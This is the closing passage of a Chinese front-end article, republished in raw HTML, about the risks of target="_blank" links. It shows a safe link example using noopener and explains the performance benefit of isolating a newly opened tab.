data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noopener noreferrer nofollow&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><h1 id="articleHeader10">&#x6027;&#x80FD;</h1><p>&#x6700;&#x540E;&#xFF0C;&#x518D;&#x6765;&#x8BF4;&#x8BF4;&#x6027;&#x80FD;&#x95EE;&#x9898;&#x3002;</p><p>&#x5982;&#x679C;&#x7F51;&#x7AD9;&#x4F7F;&#x7528;&#x4E86; <code>&lt;a target=&quot;_blank&quot;&gt;</code>&#xFF0C;&#x90A3;&#x4E48;&#x65B0;&#x6253;&#x5F00;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x7684;&#x6027;&#x80FD;&#x5C06;&#x4F1A;&#x5F71;&#x54CD;&#x5230;&#x5F53;&#x524D;&#x9875;&#x9762;&#x3002;&#x6B64;&#x65F6;&#x5982;&#x679C;&#x65B0;&#x6253;&#x5F00;&#x7684;&#x9875;&#x9762;&#x4E2D;&#x6267;&#x884C;&#x4E86;&#x4E00;&#x4E2A;&#x975E;&#x5E38;&#x5E9E;&#x5927;&#x7684; JavaScript &#x811A;&#x672C;&#xFF0C;&#x90A3;&#x4E48;&#x539F;&#x59CB;&#x6807;&#x7B7E;&#x9875;&#x4E5F;&#x4F1A;&#x53D7;&#x5230;&#x5F71;&#x54CD;&#xFF0C;&#x4F1A;&#x51FA;&#x73B0;&#x5361;&#x987F;&#x7684;&#x73B0;&#x8C61;&#xFF08;&#x5F53;&#x7136;&#x4E0D;&#x81F3;&#x4E8E;&#x5361;&#x6B7B;&#xFF09;&#x3002;</p><p>&#x800C;&#x5982;&#x679C;&#x5728;&#x94FE;&#x63A5;&#x4E2D;&#x52A0;&#x5165;&#x4E86; <code>noopener</code>&#xFF0C;&#x5219;&#x6B64;&#x65F6;&#x4E24;&#x4E2A;&#x6807;&#x7B7E;&#x9875;&#x5C06;&#x4F1A;&#x4E92;&#x4E0D;&#x5E72;&#x6270;&#xFF0C;&#x4F7F;&#x5F97;&#x539F;&#x9875;&#x9762;&#x7684;&#x6027;&#x80FD;&#x4E0D;&#x4F1A;&#x53D7;&#x5230;&#x65B0;&#x9875;&#x9762;&#x7684;&#x5F71;&#x54CD;&#x3002;</p><hr><blockquote>&#x6587; / jinliming2<br>&#x4E00;&#x6761;&#x5BF9;&#x65B0;&#x9C9C;&#x4E8B;&#x7269;&#x5145;&#x6EE1;&#x4E86;&#x597D;&#x5947;&#x5FC3;&#x7684;&#x54B8;&#x9C7C;<p>&#x7F16; / &#x8367;&#x58F0;</p></blockquote><p>&#x672C;&#x6587;&#x5DF2;&#x7531;&#x4F5C;&#x8005;&#x6388;&#x6743;&#x53D1;&#x5E03;&#xFF0C;&#x7248;&#x6743;&#x5C5E;&#x4E8E;&#x521B;&#x5B87;&#x524D;&#x7AEF;&#x3002;&#x6B22;&#x8FCE;&#x6CE8;&#x660E;&#x51FA;&#x5904;&#x8F6C;&#x8F7D;&#x672C;&#x6587;&#x3002;&#x672C;&#x6587;&#x94FE;&#x63A5;&#xFF1A;<a href="https://knownsec-fed.com/2018-03-01-wei-xian-de-targetblank-yu-opener/" rel="nofollow noreferrer" target="_blank">https://knownsec-fed.com/2018...</a></p><p>&#x60F3;&#x8981;&#x8BA2;&#x9605;&#x66F4;&#x591A;&#x6765;&#x81EA;&#x77E5;&#x9053;&#x521B;&#x5B87;&#x5F00;&#x53D1;&#x4E00;&#x7EBF;&#x7684;&#x5206;&#x4EAB;&#xFF0C;&#x8BF7;&#x641C;&#x7D22;&#x5173;&#x6CE8;&#x6211;&#x4EEC;&#x7684;&#x5FAE;&#x4FE1;&#x516C;&#x4F17;&#x53F7;&#xFF1A;&#x521B;&#x5B87;&#x524D;&#x7AEF;&#xFF08;KnownsecFED&#xFF09;&#x3002;&#x6B22;&#x8FCE;&#x7559;&#x8A00;&#x8BA8;&#x8BBA;&#xFF0C;&#x6211;&#x4EEC;&#x4F1A;&#x5C3D;&#x53EF;&#x80FD;&#x56DE;&#x590D;&#x3002;</p><p><span class="img-wrap"><img data-src="/img/bVbgVle?w=296&amp;h=295" src="https://static.alili.tech/img/bVbgVle?w=296&amp;h=295" alt="" title="" style="cursor:pointer"></span></p><p>&#x6B22;&#x8FCE;&#x70B9;&#x8D5E;&#x3001;&#x6536;&#x85CF;&#x3001;&#x7559;&#x8A00;&#x8BC4;&#x8BBA;&#x3001;&#x8F6C;&#x53D1;&#x5206;&#x4EAB;&#x548C;&#x6253;&#x8D4F;&#x652F;&#x6301;&#x6211;&#x4EEC;&#x3002;&#x6253;&#x8D4F;&#x5C06;&#x88AB;&#x5B8C;&#x5168;&#x8F6C;&#x4EA4;&#x7ED9;&#x6587;&#x7AE0;&#x4F5C;&#x8005;&#x3002;</p><p>&#x611F;&#x8C22;&#x60A8;&#x7684;&#x9605;&#x8BFB;&#x3002;</p>
{% endraw %}

# 版权声明
本文资源来源互联网，仅供学习研究使用，版权归该资源的合法拥有者所有，
本文仅用于学习、研究和交流目的。转载请注明出处、完整链接以及原作者。
原作者若认为本站侵犯了您的版权，请联系我们，我们会立即删除！

## 原文标题
你不曾察觉的隐患：危险的 target="_blank" 与 “opener”

## 原文链接
[https://segmentfault.com/a/1190000016421263](https://segmentfault.com/a/1190000016421263)

